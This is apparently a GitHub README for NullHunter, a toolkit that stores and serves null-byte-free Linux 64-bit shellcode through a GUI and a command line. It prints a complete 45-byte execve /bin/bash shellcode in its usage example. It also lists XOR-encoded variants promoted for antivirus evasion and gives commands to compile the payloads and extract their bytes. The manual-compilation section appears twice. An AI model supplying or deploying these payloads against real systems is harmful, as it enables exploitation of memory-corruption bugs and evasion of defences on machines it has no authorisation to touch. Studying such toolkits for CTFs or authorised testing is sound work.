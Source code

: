 # NullHunter

![NullHunter-removebg-preview](https://github.com/user-attachments/assets/42b5d78c-0172-4846-85c2-c1b39d503fb5)


> A specialized toolkit for null-byte free shellcode management and exploitation

NullHunter is a comprehensive solution for security researchers, CTF players, and penetration testers who work with shellcodes. It provides both a curated collection of null-byte free shellcodes and a graphical management interface for easy selection, viewing, and deployment of these shellcodes.

## Features

- **Null-Byte Free Shellcodes**: All included shellcodes are carefully crafted to contain no null bytes (0x00), making them suitable for exploiting string handling vulnerabilities
- **Graphical Interface**: Easy-to-use shellcode selection and management GUI
- **Multi-Architecture Support**: Organized collection for different architectures (currently focused on Linux 64-bit)
- **Code Snippets**: Automatic generation of C code snippets for easy integration
- **Size Optimization**: Shellcodes are optimized for minimal size to fit in constrained buffer spaces
- **Obfuscation Techniques**: Includes techniques like XOR encoding for AV evasion

## Installation

```bash
# Clone the repository
git clone https://github.com/yourusername/NullHunter.git
cd NullHunter

# Install dependencies
pip install -r requirements.txt

# Run NullHunter
python NullHunter.py
```

## Usage

### Graphical Interface

Launch the GUI application to interactively work with shellcodes:

```bash
python NullHunter.py
```

The interface has two main tabs:
1. **Shellcode Selection**: Browse and select from available shellcodes
2. **Shellcode Output**: View the selected shellcode in hex format and get the corresponding C code snippet

### Command-Line Usage

NullHunter also supports command-line operation for integration into scripts and automation:
#### Basic usage
```bash
# Basic usage
python3 NullHunter.py basic_bash --output shellcode.txt
Loading basic_bash...

Shellcode (\x format):
\x48\x31\xc0\x50\x48\x89\xe2\x50\x48\xbf\x2f\x2f\x2f\x2f\x62\x61\x73\x68\x57\x48\xbf\x2f\x2f\x2f\x2f\x62\x69\x6e\x2f\x57\x48\x89\xe7\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05

Shellcode written to shellcode.txt

Shellcode size: 45 bytes
```
#### List all shellcodes
```bash
# List available shellcodes
python3 NullHunter.py  -l

Available Shellcodes:
================================================================================
Name                           Category        Description
--------------------------------------------------------------------------------
bash_with_string               Unknown         No description available
basic_bash                     Linux 64 bits   No description available
XoredBash                      Linux 64 bits   No description available
basic_sh                       Linux 64 bits   No description available
```

### Manual Shellcode Compilation

You can also compile and extract shellcodes manually:

```bash
# Step 1: Compile the shellcode
nasm -f elf64 shellcode/Linux64bits/basic_bash/shellcode.asm -o shellcode.o

# Step 2: Extract the shellcode bytes
for i in $(objdump -d shellcode.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
```


### Manual Shellcode Compilation

You can also compile and extract shellcodes manually:

```bash
# Step 1: Compile the shellcode
nasm -f elf64 shellcode/Linux64bits/basic_bash/shellcode.asm -o shellcode.o

# Step 2: Extract the shellcode bytes
for i in $(objdump -d shellcode.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
```

## Shellcode Collection

### Currently Available Shellcodes

| Name | Architecture | Description | Size |
|------|--------------|-------------|------|
| bash_with_string | Linux 64 bits | Execve /bin/bash with string obfuscation | Varies |
| basic_bash | Linux 64 bits | Basic execve /bin/bash | 45 bytes |
| basic_sh | Linux 64 bits | Basic execve /bin/sh | Varies |
| XoredBash | Linux 64 bits | XOR-encoded /bin/bash execution | Varies |

### Adding Custom Shellcodes

To add your own shellcode to the collection:

1. Create a new directory under the appropriate architecture folder
2. Add your assembly code as `shellcode.asm` with detailed comments
3. Optionally include a `raw.txt` file with the compiled shellcode bytes
4. Restart NullHunter to load your new shellcode

## Project Structure

```
NullHunter/
├── NullHunter.py        # Main application
├── README.md            # This file
├── requirements.txt     # Python dependencies
└── shellcode/           # Shellcode collection
    └── Linux64bits/     # Linux 64-bit shellcodes
        ├── bash_with_string/
        │   ├── raw.txt
        │   └── shellcode.asm
        ├── basic_bash/
        │   ├── raw.txt
        │   └── shellcode.asm
        ├── basic_sh/
        │   ├── raw.txt
        │   └── shellcode.asm
        └── XoredBash/
            ├── raw.txt
            └── shellcode.asm
```


## Disclaimer

NullHunter and its shellcodes are provided for educational and legitimate security testing purposes only. Use them responsibly and only on systems you have permission to test. The creators are not responsible for any misuse or damage caused by this tool.

